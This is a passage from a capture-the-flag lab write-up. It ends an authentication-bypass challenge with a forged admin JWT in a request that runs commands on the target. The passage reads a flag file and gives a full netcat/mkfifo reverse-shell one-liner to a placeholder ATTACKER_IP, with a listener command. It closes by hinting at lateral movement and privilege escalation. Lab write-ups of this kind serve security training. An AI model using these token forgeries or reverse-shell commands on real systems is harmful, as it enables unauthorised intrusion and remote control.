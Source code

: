 ```http
Cookie: PHPSESSID=t0i3i7vftigajdmh7184pjc39m; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQxNzI1NjgyLCJleHAiOjE3NDE3MjkyODIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.uocuTjST5jajnsNExwYASHTFj0WkpBhsUDUx3WeYnxc; persistentSession=no
Connection: keep-alive

{"command":"whoami"}
```
<br>

### Last Flag
Now since we can run any command we can get the last flag changing the command in the request to:
```bash
cat /home/ubuntu/flag.txt
```


Just for fun we can also get a reverse shell:
Set up a listener on your machine:
```bash
nc -lvnp 1234
```

Put this command in the Burp Suite request
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

And now we have a shell as the user `www-data`.

Here we are not required to gain root privileges, i leave to your curiosity trying to move laterally to the Ubuntu user and maybe escalate your privileges.

<br/>
<br/>

Congratulations you have successfully put into practice the authentication bypass techniques you have learned and achieved RCE on the target.

I hope you had a good completing the challenge and following along.

Catch you in the next CTF 😃
